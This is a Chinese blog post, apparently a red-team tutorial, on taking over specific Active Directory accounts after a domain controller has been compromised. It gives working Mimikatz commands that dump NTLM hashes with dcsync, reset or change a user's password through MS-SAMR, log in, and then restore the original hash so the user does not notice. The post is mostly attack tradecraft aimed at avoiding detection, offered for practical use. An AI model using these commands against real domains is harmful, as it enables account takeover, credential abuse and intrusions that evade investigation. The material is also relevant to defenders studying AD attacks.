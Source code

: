 在实战中，我们经常会碰到这么一种场景。拿到域控的权限了，把域内所有用户[哈希](https://so.csdn.net/so/search?q=%E5%93%88%E5%B8%8C&spm=1001.2101.3001.7020)都导出来了。为了找靶标，需要登录指定用户的机器或其他web系统，但是指定用户的hash未能解除明文密码，而RDP和web又不支持hash登录，这时，渗透陷入了困境。有的朋友可能会说，既然都有域控的权限了，那可以把指定用户的密码修改为我们已知的密码再利用，但是这种方法不可行，第一是演习规则中禁止修改用户密码，第二是用户如果发现自己的密码被修改了的话，就肯定知道被入侵了，立马会进行溯源，会打草惊蛇。

针对这种情况，我们有以下两种解决方案：

*   使用SetNTLM将用户密码重置，登录目标系统后，再将原密码还原
*   使用ChangeNTLM修改用户密码，登录目标系统后，再将原密码还原

注：两种方法的原理都是调用了MS-SAMR协议，不同的是ChangeNTLM是调用SamrChangePasswordUser这一API来修改用户密码，而SetNTLM是通过SamrSetInformationUser来重置用户密码，但是由于ChangeNTLM受组策略密码安全设置的影响较大，所以在实战中我们一般利用SetNTLM。

SetNTLM
-------

该功能可以将指定域用户的密码重置为新的密码

利用条件：当前权限需要对要修改的用户有重置密码权限，域控对所有用户均有重置密码权限。

![](https://img-blog.csdnimg.cn/img_convert/7b8dcab9b58b91f738182a24f279b1b4.png)

### 实战

```
#查询指定用户test的NTLM Hash      
lsadump::dcsync /domain:xie.com /user:test /csv       
#重置指定用户test的密码为123456      
lsadump::SETNTLM /server:10.211.55.4 /user:test /password:123456                  
#重置指定用户test的NTLM hash为74520a4ec2626e3638066146a0d5ceae      
lsadump::SETNTLM /server:10.211.55.4 /user:test /ntlm:74520a4ec2626e3638066146a0d5ceae
```


![](https://img-blog.csdnimg.cn/img_convert/4e37f43e08e58632616596199db7f496.png)

![](https://img-blog.csdnimg.cn/img_convert/e4fdb9eca59ffc083b0635058c8402e2.png)

ChangeNTLM
----------

该功能可以修改指定域用户的密码为新的密码。

利用条件：当前权限需要对要修改的用户有修改密码权限，默认Everyone都拥有。所以在拿到用户的密码[hash](https://so.csdn.net/so/search?q=hash&spm=1001.2101.3001.7020)后都可以进行密码更改。

![](https://img-blog.csdnimg.cn/img_convert/4503b64d2462bcfb6ad47b585883dcda.png)

有一个小坑就是，如果域内密码策略进行了限制，设置了 密码最短使用期限 为1天的话，这样我们每天只能修改一次密码。并且如果测试设置了强制密码历史规则时，我们则不能将密码修改为原密码。

![](https://img-blog.csdnimg.cn/img_convert/cbb643d0eeb1bbdcd72313b7f273a13b.png)

### 实战

```
#查询指定用户test2的NTLM Hash      
lsadump::dcsync /domain:xie.com /user:test2 /csv       
#修改指定test2密码为P@ssW@rd123456      
lsadump::changentlm /server:10.211.55.4 /user:test2 /old:74520a4ec2626e3638066146a0d5ceae /newpassword:P@ssW@rd123456      
#修改指定test2 NTLM hash为74520a4ec2626e3638066146a0d5ceae      
lsadump::changentlm /server:10.211.55.4 /user:test2 /oldpassword:P@ssW@rd123456 /new:74520a4ec2626e3638066146a0d5ceae
```


![](https://img-blog.csdnimg.cn/img_convert/0168dd4209393ca4429309b1f7cf5fab.png)

出现这种错误是由于目标域设置了 密码最短使用期限 为1天 或 强制密码历史 。

![](https://img-blog.csdnimg.cn/img_convert/67d5b2bd717efb5b4c06903c0e4760ff.png)

![](https://img-blog.csdnimg.cn/img_convert/cb2a9d08fdd7874b8141cb2e8812a9e2.png)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考：[利用MS-SAMR协议修改用户密码](https://mp.weixin.qq.com/s/QvdCtlWtn78FKXkwy9_CrA "利用MS-SAMR协议修改用户密码")

文章知识点与官方知识档案匹配，可进一步学习相关知识

[CS入门技能树](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[Linux入门](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[初识Linux](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)10917 人正在系统学习中